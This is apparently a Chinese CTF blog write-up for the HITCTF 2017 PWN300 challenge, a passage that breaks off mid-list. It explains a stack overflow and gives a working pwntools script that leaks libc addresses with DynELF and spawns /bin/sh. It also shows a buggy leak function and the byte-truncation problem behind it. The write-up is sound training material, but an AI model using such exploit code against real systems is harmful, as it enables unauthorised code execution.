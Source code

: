 ```yaml
---
title: HITCTF PWN300--dynelf 
date: 2017-04-08 18:26:11
tags:
- CTF
- PWN
- PWNTOOLS
---
```

第一次用Dynelf，脚本调了一下午。。hitctf pwn300题目链接：http://pan.baidu.com/s/1eSCCOE2漏洞分析：三个write之前的一个函数调用了read来读入字符，而这里存在明显的缓冲区溢出，可以覆盖main函数的栈地址，这个题没给libc，got表里没有system之类的函数，于是考虑用dynelf。攻击脚本：from pwn import *
io = pr
<!-- more -->
## 第一次用Dynelf，脚本调了一下午。。
### hitctf pwn300
漏洞分析：三个write之前的一个函数调用了read来读入字符，而这里存在明显的缓冲区溢出，可以覆盖main函数的栈地址，这个题没给libc，got表里没有system之类的函数，于是考虑用dynelf。

攻击脚本：
~~~
from pwn import *
io = process("./pwn300")

writeplt = 0x80483E0
start_addr = 0x08048400
data_w = 0x0804A030
readplt = 0x8048390

def leak(addr):
    payload = "a" * 0x1A + p32(writeplt) + p32(start_addr) +p32(1) + p32(addr) + p32(4)
    io.sendline(payload)
    io.recvuntil(p32(4))
    io.recv(1)
    data = io.recv(4)
    print "%#x => %s"%(addr,repr(data))
    return data

dynelf = DynELF(leak,elf = ELF("./pwn300"))
sys_addr = dynelf.lookup("system","libc")
read_addr = dynelf.lookup("read","libc")
print "sys_addr:" + hex(sys_addr)
print "read_addr:"+hex(read_addr)
payload1  = "a" * 0x1A + p32(start_addr)
io.sendline(payload1)
payload2 = "a" * 0x1A + p32(read_addr) + p32(start_addr) + p32(0) + p32(data_w) + p32(8)
io.sendline(payload2)
io.send("/bin/sh\x00")
payload3 = "a" * 0x1A + p32(sys_addr) + p32(start_addr) +p32(data_w)
io.sendline(payload3)
io.interactive()
~~~

脚本看起来很简单，但是博主调了一下午。。。主要原因是我原来的leak是这样的：
~~~
def leak(addr):
    payload = "a" * 0x1A + p32(writeplt) + p32(start_addr) +p32(1) + p32(addr) + p32(4)
    io.sendline(payload)
    io.recvline()
    io.recvuntil("\n")
    data = io.recv(4)
    print "%#x => %s"%(addr,repr(data))
~~~

乍一看好像没什么毛病，一跑起来就有问题了：

首先，没return data

然后这个recvuntil(“\n”)是有问题的，因为这个程序是会截断”\r”(ascii码为0x0D)的，dynelf在检测got表时可能会输入含有0d这样的字节，这样我们的payload就会被截断，导致后面的leak雪崩式错误。（由于不清楚dynelf是怎么找got表的，这个leak有时可以有时不行，所以这个bug不好复现）

总之，写leak函数的注意以下几点：
